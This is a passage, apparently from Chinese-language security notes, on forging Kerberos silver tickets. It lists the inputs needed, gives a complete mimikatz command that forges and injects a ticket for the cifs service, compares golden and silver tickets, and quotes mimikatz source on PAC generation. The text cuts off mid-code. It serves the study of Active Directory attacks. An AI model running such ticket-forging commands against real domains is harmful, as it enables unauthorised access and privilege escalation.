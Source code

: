 

**伪造白银票据所需的信息：**

- 目标的域名信息（如：*example.domain.local*)
- 目标域名的 SID （可通过 `lsadump::lsa` 获取）
- 伪造的账号名称（如： *Administrator*）
- 目标计算机账号（或对应服务账号，如 *MS SQL*）的 Hash 
- 目标服务器的 FQDN（Fully Qualified Domain Name，如 *adsmswin2k8r2.example.domain.local*）



**伪造白银票据的方法和工具**

mimikatz

```
mimikatz “kerberos::golden /admin:Administrator /id:500 /domain:example.domain.local /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.example.domain.local /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt” exit
```

使用和其他功能同黄金票据。



### 黄金、白银票据的差异

- 黄金票据伪造的是 TGT，白银票据伪造的是 Ticket；黄金票据是在 Kerberos 协议中的第三步（TGS-REQ）开始，而白银票据是从第五步（AP-REQ）开始。两者伪造的信息和伪造的步骤都不同。
- 黄金票据需要与 KDC 通信，而白银票据不需要。
- 黄金票据需要 krbtgt 账号的 NTLM Hash，而白银票据需要的是目标计算机对应的账号或对应服务账号的 NTLM Hash。
- 白银票据需要指定目标服务/计算机的路径（如 *adsmswin2k8r2.example.domain.local*），以及对应的服务名（如 *cifs*, *rpcss*, *http*, *mssql*）。
- 白银票据只对指定计算机上的指定服务生效，局限性比较大。



### PTT 的一些实现细节

可以看到在生成黄金票据的时候，mimikatz 会提示生成了好几部分内容，这些提示我试图查找一些资料，都没有找到现成的解释，于是都去翻了翻 mimikatz 的源码试图找到合理的解释。

在 [kuhl_m_kerberos.c #508](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kerberos/kuhl_m_kerberos.c#L508) 处的 `kuhl_m_kerberos_golden_data` 函数，是负责生成黄金票据信息的主要函数，可以看到有相关的一些参数。

继续查看该函数实现的定义，如下

```

	if(sid) // we want a PAC !
	{
		if(pValidationInfo = kuhl_m_pac_infoToValidationInfo(&lifetime->TicketStart, username, domainname, LogonDomainName, sid, userid, groups, cbGroups, sids, cbSids))
		{
			if(kuhl_m_pac_validationInfo_to_PAC(pValidationInfo, NULL, NULL, SignatureType, pClaimsSet, &pacType, &pacTypeSize))
			{
				kprintf(L" * PAC generated\n");
				status = kuhl_m_pac_signature(pacType, pacTypeSize, SignatureType, key, keySize);
				if(NT_SUCCESS(status))
					kprintf(L" * PAC signed\n");
			}
		}
	}

	if(!sid || NT_SUCCESS(status))
	{
		if(BerApp_EncTicketPart = kuhl_m_kerberos_ticket_createAppEncTicketPart(&ticket, pacType, pacTypeSize))
		{
			kprintf(L" * EncTicketPart generated\n");
```